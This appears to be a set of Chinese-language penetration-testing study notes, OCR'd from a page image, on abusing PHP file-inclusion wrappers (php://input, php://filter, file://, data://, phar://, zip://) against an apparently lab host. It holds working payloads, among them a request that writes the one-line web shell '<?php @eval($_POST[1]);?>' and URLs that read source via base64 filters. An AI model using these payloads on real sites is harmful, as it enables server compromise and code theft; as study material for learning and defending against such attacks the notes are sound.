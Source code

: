 ### 文件协议

~~~shell
# 协议：
#1、php://协议：
  * php://stdin 只读协议
  * php://stderr 只写协议
#2、php://input协议：把整个文件读入一个字符串中。
  * <?php
    echo file_get_contents("php://input");
    ?>
  * http://172.168.70.226/web/baohan/phpinut.php
  * 抓包，改包
php://input只能够获取POST参数中的数据,而真正能够创建文件和把数据写入文件的函数是fopen()函数和fputs()函数
#3、fopen()函数
	* fopen()函数是用来打开文件后者是URL，如果打开失败的话，本函数返回FALSE
	语法：fopen(filename,mode,include_path,context)-->
		fopen(“abc.php”,”w”)//以写入的方式打开一个“ak.txt”文件，如果没有此文件便创建一个
#4、fputs()函数
fputs()函数的作用是写入文件（可安全的用于二进制文件），它是fwrite()函数的别名
1、语法：
	* <?php
		$file = fopen("shell.php","w");
		echo fputs($file,"Hello world!!!");
		fclose($file);
		?>
* 这段代码的意思就是令fopen函数建立的shell.php文件传递给变量file，然后利用fputs函数把Hello world!!!写入到shell.php中。
2、链接：http://172.168.70.226/web/baohan/index.php?page=php://input
抓包写入：<?fputs(fopen('any1.txt','w'),'hello any');?>;
3、一句话木马：
<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST[1]);?>");?>
4、问题：post被过滤
@eval(\$_POST[1])
#5、php://filter
* 最常用的一个伪协议，一般用来进行任意文件读取
* 一般把php://filter协议用来读取网站的源码，或者一些隐藏的东西，作为base64编码的格式全部展现，然后再对它进行解码，就可以得到我们想要的东西。
1、用法：
?filename=php://filter/convert.base64-encode/resource=xxx.php
2、使用条件：
只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；
3、案例：
http://172.168.70.226/web/baohan/index.php?page=php://filter/read=convert.base64-encode/resource=shell.php
解密后：<?php @eval($_POST[1]);?>
#6、file://伪协议
1、案例：
http://172.168.70.226/web/baohan/index.php?
page=file:///E:\phpStudy\PHPTutorial\WWW\web\baohan\phpinfo.php
#7、data://伪协议
数据流封装器，和php://相似都是利用流的概念，将原本的include的文件流重新定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含来你的输入流，通过你输入payload来实现目的。
1、例子：
http://172.168.70.226/web/baohan/index.php?page=data://text/plain;base64,aGVsbG8gd29ybGQ=
#8、phar，zip（5.3~5.4）
1、phar伪协议: php版本：php>5.3
* phar://伪协议是php解压缩包的一个函数，不管后缀是什么，都会当做压缩包来解压。
2、zip伪协议: php版本：5.3<php<5.4
* zip://伪协议；zip伪协议与phar协议类似，但用法不同
3、包含顺序
(1)?page=zip:uploads/aa.zip%23aa
(2)?page=phar://./uploads/aa.zip/aa.php
~~~
